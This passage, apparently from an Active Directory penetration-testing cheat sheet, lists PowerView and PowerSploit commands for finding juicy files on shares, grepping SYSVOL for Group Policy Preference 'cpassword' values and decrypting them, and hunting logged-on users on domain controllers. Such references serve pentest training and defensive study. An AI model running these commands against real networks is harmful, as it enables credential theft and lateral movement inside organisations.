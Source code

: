 - Identify juicy files accessible over the shared folder
    
    ```powershell
    Invoke-FileFinder
    
    ```
    
- Find File servers in current domain
    
    ```powershell
    Get-FileNetServer
    
    ```
    
- Find hardcoded Password via Group Policy Preference
    
    ```powershell
    findstr /S /I cpassword \\dc.organicsecurity.local\sysvol\organicsecurity.local\policies\*.xml
    
    ```
    
- Decrypt the GPP Password identified in previous step ([https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1))
    
    ```powershell
    Get-DecryptedCpassword
    
    ```
    

**User Hunting**

- Find session of logged on users on the server
    
    ```powershell
    Get-NetLoggedOn <computer-name>
    (Get-NetComputer -FullData).foreach({Get-NetLoggedOn $_.cn})
	
	# Get actively logged users on a computer (needs local admin rights on the target)
	Get-NetLoggedon -ComputerName dcorp-dc.dollarcorp.moneycorp.local 

    
    ```

- Get locally logged users on a computer (needs remote registry on the target - started by-default on server OS)

	```powershell
	Get-LoggedonLocal -ComputerName dcorp-dc.dollarcorp.moneycorp.local 

	```

- Find last logged on user on the remote machine
    
    ```powershell
	#Get the last logged user on a computer (needs administrative rights and remote registry on the target)

